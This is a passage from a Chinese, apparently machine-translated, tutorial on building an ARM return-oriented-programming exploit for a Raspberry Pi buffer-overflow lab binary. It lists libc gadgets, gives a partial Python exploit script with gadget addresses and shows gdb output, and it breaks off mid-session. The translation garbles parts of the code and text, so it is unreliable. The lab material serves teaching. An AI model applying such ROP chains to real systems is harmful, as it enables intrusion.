 *从结果中可以看出，没有小工具将值 0x00000007 直接复制到 r2。但是小工具“mov r0，# 7；pop {r4，PC }；"可以将值 7 (0x00000007)放入 r0。所以我们可以用这个小工具把值放到 r0，然后用另一个小工具把这个值移到 r2。*

> *0x 000 D2 AC:mov r0，# 7；pop {r4，PC }；*

*现在让我们来找一个小工具，将 r0 的值复制到 r2。*

> *(libc_2.19.so/ELF/ARM)>搜索 mov
> [INFO]搜索小工具:mov*

*![](img/f6d0603a4b901734d78f4f0fe7ba455a.png)*

*我发现了两个很好的工具。*

> *0x000d9ef0: mov r2，r0；mov r0，R6；blx r3
> 0x000d9ef0: mov r2，r0；mov r0，R6；blx r3pop {r4，r5，r6，PC }；*

*现在的问题是选择哪一个。嗯，我更喜欢第一个，因为它比第二个简单。*

*哦，等等？？*

*分支到 r3？？？*

*我们甚至不能控制 r3，而且 r0 现在包含 7 个。我们还需要将该值改回大小。我希望你在某个地方复制了所有的小工具。如果你这样做了，让我们开始解决这个问题。*

# *修复漏洞*

*让我们用现有的小工具开始编写 python 脚本。我会用纳米来做这个*

> *#!/usr/bin/python*
> 
> *导入结构*
> 
> *base_libc = 0xb6e74000*
> 
> *exp = " A " * 24
> exp+= struct . pack("<I "，base_libc+0x0010a1b8) # pop {r1，PC }；
> exp += struct.pack(" < I "，0x 10101010)
> exp+= struct . pack("<I "，base_libc+0x0007a12c) #pop {r0，r4，PC }；*

*这是目前为止的利用情况。我不会像什么是 struct，libc_base 等那样逐行解释。我再次强烈推荐您阅读我在本文开头提到的 ROP 链文章。*

*这里，libc_base 变量包含 libc 基址，有效负载被制作到 exp 变量中。所以在覆盖了 pc 之后，我们把第一个小工具的地址。*

*该脚本将把值 0x10101010 放入 r1，并交还控制权，以便我们可以执行下一个小工具。*

*接下来，我们可以将堆栈的地址放入 r0 寄存器。要找到这个地址，将程序加载到 gdb 中，在 main 中放一个 bp，然后运行它。*

> *pi@raspberrypi:~/asm/bof $ gdb。/BOF-ROP
> GNU gdb(Raspbian 7 . 7 . 1+dfsg-5+rpi 1)7 . 7 . 1
> Copyright 2014 Free Software Foundation，Inc .
> License GPLv3+:GNU GPL version 3 或更高版本<[http://gnu.org/licenses/gpl.html](http://gnu.org/licenses/gpl.html)>
> 这是自由软件:你可以自由更改和重新发布它。
> 在法律允许的范围内，不提供任何担保。键入“显示复印”
> 和“显示保修”了解详情。
> 这个 GDB 被配置为“arm-linux-gnueabihf”。
> 输入“显示配置”了解配置详情。
> 关于 bug 报告的说明，请参见:
> <[http://www.gnu.org/software/gdb/bugs/](http://www.gnu.org/software/gdb/bugs/)>。
> 在
> <[http://www.gnu.org/software/gdb/documentation/](http://www.gnu.org/software/gdb/documentation/)>找到 GDB 手册和其他在线文档资源。如需帮助，请键入“help”。
> 键入“apropos word”以搜索与“word”相关的命令……
> [*]没有调试会话处于活动状态
> GEF for linux 就绪，键入“GEF”以启动，键入“gef config”以配置
> 使用 Python 引擎 2.7 为 GDB 7.7.1 加载的 56 个命令